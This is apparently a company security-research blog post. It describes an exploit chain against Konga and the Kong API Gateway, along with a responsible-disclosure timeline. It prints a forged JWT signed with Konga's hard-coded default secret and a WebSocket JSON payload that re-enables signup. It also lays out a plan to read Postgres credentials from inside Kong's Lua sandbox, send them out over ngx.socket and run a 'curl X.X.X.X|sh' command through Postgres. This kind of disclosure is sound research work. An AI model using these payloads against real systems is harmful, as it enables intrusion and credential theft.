## What is kong & why we're relying on it

If you're an occasional reader of the manomano-tech Medium blog, you might already be familiar with Kong API Gateway thanks to previous articles more developer-focused like this one: Improve your Kong Plugin Experience (<https://medium.com/manomano-tech/improve-your-kong-plugin-experience-2e4bad9d6178?source=friends_link&sk=e362d5926727f4eac35ff76584060048>).

If not, you can either read past blog posts as an introduction, or consider Kong as a "huge black-box that uses `nginx` & `lua` to create a clean approach to reverse-proxying" 🙂



> Side note here: A short talk was given on this research during the SecAtScale (<www.secatscale.com>) Meetup in early 2023, join us next time? 🌹

## Why targeting Kong? Revenge

Okok, we're 10 lines in and it's already getting personal.

I joined ManoMano in early April 2022. Back then, I was already working in cyber-security, and ManoMano already had a (private) bug-bounty program.\
Therefore, I asked to join this research program to find bugs in a safe harbor, my initial goal being to find a remote code execution (RCE) before joining the company, and jump-in like a boss!


That was the plan, yet, things didn't turn out exactly as planned!
In my previous pentest job, most of the targeted websites could be hacked in a week or so, and if not, time was missing, not ideas!\

Turns out ManoMano uses Kong in a way that only exposes internal micro-services on a specific route, with a specific vhost, path, and method.\

This implies that if an endpoint `/admin/vulnerable-path` exists internally but only the route `/api/v1/order` is exposed, unless a 0-day or Server-Side-Request-Forgery (SSRF) is found, this endpoint won't be reachable. This means no threat, and no treats.. 🙁\

So I spent one month enumerating tons of endpoints, finding weird behaviors, but nothing critical, and nothing too crazy exposed.
Where are my beloved java `/..;/jolokia` and symfony `/_fragment`? I miss them so bad!\

A month later, I joined the company, like a regular human, with no shell. Duh.

---

ManoMano's infrastructure is quite new & shiny, this is mostly due to the recent move to the cloud with an advanced migration to k8s on aws (EKS). A few bugs were found internally, and some on the public-facing assets as well, but they required more internal knowledge, and were sometimes located in assets not (yet!) in scope of our bug-bounty program.\

Now was the right time to fight back, let's seek revenge!\

As Kong was THE component that bothered me the most for my pre-hire research, I wanted to dig deeper and understand what this bad boy is really capable of! 😀


I asked my manager Jules Duvivier if this could be set as one of my next quarterly goals, and he happily agreed! I think the idea got him amused as well.. :]\

Can "finding a 0-day" be a realistic goal? Meh, working with pressure is definitely not a sane approach (at least not for me, I tend to take shortcuts & miss obvious things).\

That's why I offered a slightly different approach: "Let's dig deeper on this software, try to better understand how we are using it and how we could push it even further!"\

Here, "dig deeper" for sure implies "trying to find bugs", like a mindset to live with for the next few weeks. This will drive me and help me identify what are the next components to analyze, find what is exposed, and which dangerous features could be reached.\

If we find critical bugs, that's cool! Otherwise, we will still probably find potential bugs, potential exploitation paths, and configurations to harden. This means that we can only win, by either finding and patching security issues, or preventing new ones before they are fully established (shifting left, kind of.. 🙃)!

## Research Lab & Workflow

First things first, to analyze a software, tremendous time can be saved by having a decent lab & workflow. There is no "one size fits all" when it comes to research labs, yet my go-to solution is almost always a docker-compose file with the software I'm trying to hack. But not exclusively, often add other dockers like `autoheal` (<https://github.com/willfarrell/docker-autoheal>) to automatically restart a backend when it's in a broken state, or a (local only, as it's unsafe as hell) `adminer` (<https://github.com/vrana/adminer>) to inspect and modify the database easily.\

On top of that, I export the sources & configurations from the docker to my host, and then mount them back in the docker. This allows me to conveniently modify the sources on my host (VsCode & vim for the win) and see the result reflected right away. One other good reason to do this, is that all the files can be brutally chmod'd and added to the git containing the current state of the lab.





Once this setup is in place, I create one branch per research idea, and commit changes on a regular basis.
This brings many advantages!\

Collaboration: Clone my git, checkout the branch, docker-compose up, and Voilà, you have my lab & current state, being working, exploited, or broken 💥

Hardware resiliency: I can use another computer or even break mine without losing time nor data! 😍

Snapshots: Uh-Oh, I completely broke the app, nothing boots anymore, let's checkout the previous commit 😇

History: Know how much time was spent on a specific idea, what were the logs, the inputs & outputs back then, and… What did I tweak to make this work already??? 🤔

Tracking: Let Jules know whether I work or not // Haha, nope, we're already passionate here, that's just not the point when trust rules, right? 😉

Here is how it looks, one git repository for the lab (slide 1), and one for the note-taking process (slide 2) to keep thoughts, exploits, ideas, and logs at hand without switching branches every 2 minutes! 😅

In this blog post we'll only go through the bugs that worked and are part of the full exploit chain, involving Kong (Lua), Konga (Node.js), and Postgres (Postgres 🤷). If you're interested about the failed attempts (which is like… 95% of our work and time while doing research), read the notice at the end! 🌻

One simple finding looks like this rendered markdown. It always includes bullet points in the header to allow a fast self-reminder of where I left off.



Moreover, a recursive `grep -rF idea`: can list all the attempts in one go! 😎



## Core findings

Before we jump to the exploit chain explanations, let's quickly introduce Konga, the Web UI that enables us to monitor & manage the Kong admin API in a fancy way (playing with routes & plugins setup before migrating it to the DevOps way, a yaml definition deployed in the CI).

This project received no update in the last two years, yet it's still the main (only?) decent alternative to the premium Kong Enterprise Interface one.

A few bugs are already in its GitHub known issues, and it has a few active forks, but none really took the lead nor patched the known issues, even the security ones… Oof.

The full exploitation path will be closely detailed below, but here is the big picture, our TL;DR, our final exploitation plan!



### Stage 1 - From no-one to Konga admin

Konga runs on Node.js, has a good-looking single-page angular frontend, and makes an intensive use of WebSockets. So far, so good!

But after browsing a few files and reading code, it becomes clear that:

- They really tried to make clean code, which is great 👍
- Access Control & Roles are in place, security is/was a concern, again 👍
- This project had no real security code review, hard-coded secrets included 👎
- The ACL is broken, read-only users can elevate their role to admin 👎
- Overall, many good ideas, killed by a few low-hanging fruits… 😞 😭

Let me insist on this. There is `no blame on the maintainer whatsoever`. They offered time, knowledge, and a fully working software for free which is already amazing! The design is already quite decent and wouldn't need a tremendously high amount of work to reach and claim a decent security state.

Now let's come back to the first finding: Fallback on hard-coded weak secrets.

```javascript
// 2 occurrences in ./api/services/Token.js
return jwt.sign(
        payload, // This is the payload we want to put inside the token
        process.env.TOKEN_SECRET || "oursecret" // Secret string which will be used to sign the token
);
```


- What this code means
  - "If no secret has been defined, let's use a weak one just in case"
- What it should do
  - "If no secret has been defined, error out with the doc URL, and exit"

Of course, developers willing to have their solution adopted and used broadly want to ease as much as possible the installation process, to lower the adoption friction. Right.

Then let's use safely-acquired random bytes as a key for every new instance, and Voilà!

Anyway, we have a default secret, what should we sign? A cookie? A JWT? A serialized parameter? If so, what would be the value or payload to sign? Or encrypt?

Turns out the authentication works by "just having a valid signed JWT", which is definitely shady and not detailed enough to track which user took action on the backend and with which role! 😰

So we sign the value "1" with our weak key, and move on by sending a JSON blob via the opened WebSocket tunnel (or fallback on a regular PUT request) to enable the signup page on the backend. We can then register our own unprivileged account! 🥳

Here's the JSON blob to send by WebSocket to re-enable the signup page, with its prefix set by the WebSocket. I still have no clue what it's used for, but hard coding it worked on various setups. If this hadn't been the case, it can still be easily brute forced as a small integer!

```json
424[
    "put",
    {
        "method": "put",
        "headers": {
            "Accept": "application/json, text/plain, */*",
            "Content-Type": "application/json;charset=utf-8"
        },
        "data": {
            "data": {
                "signup_enable": true,
                "signup_require_activation": false
            },
            "token": "eyJhbGciOiJIUzI1NiJ9.MQ.Lu-KcR4aCeuT9hi1K474zV3s4VaopLDCcf4nZvH6DQo"
        },
        "url": "/api/settings/1"
    }
]
```

Once this is done, we can simply visit the signup page



Once logged in, it is possible to change our own role in the local storage to trick the GUI to display the right options (such as the "make me an admin" checkbox 😯)!




Then, by simply checking this box and saving our settings, the frontend will send the appropriate request to change our role in the backend. The ACL being broken or missing depending on the endpoints, our user will be granted admin privileges. A logout/login might be required to unbreak the frontend, but we're in! 😀

- No answer from Konga at the time of writing, the huntr.dev reports might be made public someday… Maybe.. 🤷
- Authentication bypass - <https://huntr.dev/bounties/d9364224-cb9e-4b5c-81cc-0ab85bba693f/>
- Privilege escalation - <https://huntr.dev/bounties/f3b67302-092c-48b7-b2d5-26ffd6982f2b/>
- Demo - <https://youtu.be/jIKZUBZQMHo>

### Stage 2 - From Konga admin to shell

From now on, we assume that we can communicate with Kong using administrative privileges.

Most of the kong/konga setups rely on having Konga able to connect to Kong's `RESTful Admin API`. Some authentication can be applied to it, but it's already set up in Konga as well, otherwise it wouldn't be able to exchange information with Kong.

So we are already a Kong admin, which is already terrifying as this means that its reverse proxy main-purpose feature can be used to route the whole traffic to somewhere else, and steal everything from us. But what if we want to go further, do the extra mile, and get away with shell?

Sit comfortably, we're getting there! 🌹

While auditing Kong, the plugin feature seemed to be THE place to go to execute commands. Even though installing a new plugin to Kong requires writing files on the file system (scp, ftp, third-party), there are already around 30 plugins, and some of them allow the execution of sandboxed Lua code to modify the request or response. Looks promising right?

Turns out `there is a sandbox` in place, and it's `pretty damn well locked down`!

I've tried for weeks to escape from this jail, by reading or writing files, polluting global, callbacks, or logs, exploiting coroutines newly created context, accessing dangerous Lua built ins, importing modules, debugging internal objects, and even some binary corruption attempts.

Nothing was killing it, the objects passed to the sandbox were deep-copied and therefore had no impact on the outer world if modified, all the interesting functions were stripped off, access to any module and file system was blocked. Even the known memory corruptions couldn't be reached, as the garbage collector was not callable anymore. Yeet!


If you're curious about the implementation, it can be found in their GitHub (<https://github.com/Kong/kong-lua-sandbox>). It's used the following way



But sometimes, all you gotta do is dig deeper. Or maybe not deeper, but in another direction?


So the "regular" jail escape techniques don't work here. Fine, then what's in the box?

Which interesting objects or behaviors are already available to us? It's time to hand-code a quick'n dirty deep inspection function in Lua!

The first attempt was a bit too shallow, with the following code called in various plugins, plugin's Lua expression. First it was copy-pasted, and soon enough it was pushed in Kong thanks to the Kong Admin API. Finally, it can be done through Konga with *click click click* or a few curl requests to automate the test process.

```
local seen={}
local out = ""
function dump(t,i)
    seen[t]=true
    local s={}
    local n=0
    for k in pairs(t) do
        n=n+1 s[n]=k
    end
    for k,v in ipairs(s) do
        out = out .. "\n" .. i .. " - " .. v
        v=t[v]
        if type(v)=="table" and not seen[v] then
            dump(v,i.."\t")
        end
    end
end
```

One sample result for the "kong" object looks like this and already gives us valuable insights and information, but not that helpful when it comes to the types, complex values, or the functions behaviors (or even code/bytecode)…

```
  - configuration
     - remove_sensitive
   - cache
     - shm_name
     - cluster_events
             - shm
                     - 1
             - strategy
                     - page_size
                     - connector
                             - major_version
                             - escape_literal
                             - config
                                     - user
                                     - cafile
                                     - ssl_verify
                                     - ssl
                                     - socket_type
                                     - timeout
                                     - password
                                     - sem_timeout
                                     - database
                                     - port
                                     - host
                                     - sem_max
                                     - schema
                             - major_minor_version
                             - escape_identifier
                     - event_ttl
[...]
```

We can still obtain the information we miss thanks to the inspect Lua module, yay! 😀

```
- https://github.com/kikito/inspect.lua
- luarocks install inspect
kong.log.err("\n" .. inspect(sandbox_opts) .. "\n")
print(inspect(my_var))
```

But… We're sandboxed, we can not import a module from our sandboxed Lua code!! ⛔

To circumvent this issue, we will manually modify the plugin code to import the inspect module before the sandbox operation takes place, and pass the module to the sandbox by polluting one of the objects (here the "Kong" variable) passed as a sandbox option.

But HEY, if I can pass functions or modules to the sandbox that way, maybe this pattern is already present in the code? Maybe nefarious functions are already in the box? Would it be… self-sandbox pollution?

Actually yes! Here are (some of) the cool poisonous findings we found!

- The `kong` object contains the secrets (clear plaintext) for PostgreSQL 😨
- The `ngx` object contains the socket object/module 😱

There might be more, but we already have everything we need with these two! Here's the plan.

- We use Konga (or curl with the admin API for simpler demo purpose) to drop our Lua code
  - Lua runs in the sandbox
  - Reads the database credentials in the kong object
  - Uses the ngx socket object to send them out to an attacker-controlled server
- With the Postgres credentials at hand, we can then
  - Send more Lua code taking advantage ngx.socket create a tcp tunnel
  - Tunnel that links the attacker-controlled server to the internal Postgres database
- Final step, we exploit the now exposed PostgreSQL with the stolen credentials from the external attacker machine, something like `SELECT * FROM PROGRAM("curl X.X.X.X|sh")` but with the proper Postgres syntax (thanks to metasploit 🔫)! ⚔️

As giving the whole exploit details in a high-level article doesn't really fit in, feel free to read the associated huntr.dev technical report as the Kong one got disclosed (without our consent 👏)!

- <https://huntr.dev/bounties/0e7fc024-b21e-479b-95a6-cdca16321e54/>
- Demo - Steal postgres credentials from kong's sandbox - <https://youtu.be/4rIigKPbOOA>
- Demo - Exploit postgres through kong's lua tcp pipe - <https://youtu.be/d8asqX4RYD4>

## Responsible Disclosure

Of course, as a company and as a researcher, going through the responsible disclosure process is a must. We tried to do the right thing, but turns out things didn't go as planned either.



The picture above shows extracts of the report we sent, including the lab to reproduce the issue, detailed explanations, exploit scripts, and recorded demos hosted with private YouTube links. We tried to ease the process as much as possible, as we know triaging can be time-consuming!

> Side note again: The title contains "Unauth" as while redacting this one, I had the initial Konga bypass in mind, but seen from the Kong side, it's definitely an authenticated issue. Honest mistake, sorry for this! 😅 🙏



And this was the first response, explaining that "No, this is not a vulnerability, we don't care about a reverse shell on this specific plugin". I opened up the documentation and indeed, they say that this plugin isn't considered safe. Ouch.

That being said, the exploit we have doesn't rely on "this" plugin, but on "any" plugin that can run sandboxed Lua code (most of the default plugins…).\
Moreover, a metasploit exploit was released for this purpose in 2020, exploiting Lua in the Kong admin endpoint (<https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/kong_gateway_admin_api_rce.rb>)!!

So this was a bug, they introduced a sandbox, but now sandbox escapes are not bugs anymore? How come? Did we miss something? 🙁

We've had a few back and forth with the maintainers, but to this day, the conclusion is that this is "not a bug", therefore, no patch is on the way.

## Timeline for Kong

- 2022 Nov 02 - We publish the initial report on <https://huntr.dev/>
- 2022 Nov 10 - First answer on the initial report on the pre/post-functions plugins being documented as dangerous, so concerned companies should have it in a deny list.
- 2022 Nov 11 - We explain that this issue impacts almost every default plugin, giving tcp-log as an example. As this huntr.dev report is closed, we fear that they won't receive this exploitation-info update.
- 2022 Nov 24 - We email <security@konghq.com> to ensure they are aware of the huntr.dev report being closed too early, and keep them posted about the increased exploitability.
- 2022 Dec 01 - No answer from out previous email, we send a new one asking for an update on their side.
- 2022 Dec 15 - They answer by email, our exploit requires a lack of adherence to the documentation (having an unprotected/wide-open Admin API Port), which is true. But defense in depth is a thing. A misconfiguration is already bad, but shouldn't lead to a straightforward RCE…
- 2022 Dec 21 - We answer (and I argue) that this bug could be chained with SSRF or similar access bypass. We still acknowledge their position toward this bug, and inform them that we plan to write a blog post on the whole chain & hardening process.
- 2022 Dec 21 - T+1mn - Automatic response from <security@konghq.com>, "The group you tried to contact (security) may not exist, or you may not have permission to post messages to the group." So they either removed this email/group, or blocked us?
- […] We harden everything we can on our side! 😀
- 2023 Feb 14 - We start writing the draft blog post
- 2023 Mar 23 - Almost finished the reviews! 🥳
- 2023 May 10 - We release the blog post! 🎉

